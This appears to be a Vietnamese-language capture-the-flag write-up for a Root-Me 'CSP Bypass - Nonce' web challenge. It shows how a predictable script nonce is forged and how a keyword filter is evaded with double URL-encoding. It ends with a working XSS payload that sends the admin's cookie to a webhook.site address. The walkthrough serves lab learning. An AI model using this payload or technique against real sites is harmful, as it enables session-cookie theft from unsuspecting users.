









## CSP Bypass - Nonce

Challenge: http://challenge01.root-me.org/web-client/ch49/

Đầu tiên khi vào trang web ta thấy response trả về có CSP:



```http
Content-Security-Policy: connect-src 'none'; font-src 'none'; frame-src 'none'; img-src 'self'; manifest-src 'none'; media-src 'none'; object-src 'none'; script-src 'nonce-YTxiYXNlIGhyZTE2LTExLTIwMjQ='; style-src 'self'; worker-src 'none'; frame-ancestors 'none'; block-all-mixed-content;
```

Dùng https://csp-evaluator.withgoogle.com/ để check ta biết được:\


Ban đầu mình thử đi theo hướng `base-uri` đó là dùng thẻ    `<base>` nhưng không thành công

Chú ý lại phần `Nonce` của `script-src`, phần `Nonce` này là base64 cho 10 kí tự đầu + ngày tháng năm:\
  

Từ đây ta cố định 10 kí tự đầu và gửi request để lấy được `nonce` sau đó có thể thêm thẻ `script` và thêm nonce đó vào mà response trả về `nonce` vẫn như cũ, vậy là ta đã kiểm soát được `nonce`: 



Thử với `alert(1)`:\
\


Tiếp tục thử ta biết được nó sẽ chặn nếu dùng các kí tự: `.`, `document` và nhiệm vụ của ta là lấy cookie việc chặn các kí tự này khiến cho ta không thể đi theo lối mòn là: `document.cookie` được. 

Mặt khác ở đây không thể dùng `fetch` vì nó có `Content-Security-Policy: connect-src 'none'` nếu dùng fetch thì console sẽ thông báo không được phép kết nối do CSP có `connect-src 'none`

Do đó mình dùng với `location` kết hợp với `decodeURIComponent` để có thể decode `.` và `document` đưa vào dạng URL encode và ở đây phải encode 2 lần vì khi gửi request bên server sẽ tự decode đoạn input nhập vào:\
 

Ngoài ra chú ý dấu `+` sẽ được tính là khoảng trắng nên để nó vẫn là dấu `+` ở trong lệnh js thì ta cũng cần encode thành `%2b`

Thành công gửi gói tin nhưng document.cookie chỉ được nhận dạng là text không phải là lệnh js:\


Vậy ở đây ta đổi hướng sang 1 cách dùng khác là dùng `window["document"]["cookie"]`:\


Payload cuối cùng:
`aaaaaaaaaa<script+nonce="YWFhYWFhYWFhYTE2LTExLTIwMjQ=">location=("//webhook"%2bdecodeURIComponent("%252E")%2b"site/1da3fdfc-04bc-472e-b524-c6fb2b3bde3a?c="%2bwindow[decodeURIComponent("%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34")]["cookie"])</script>`

Và sau đó gửi url đó cho admin đợi response


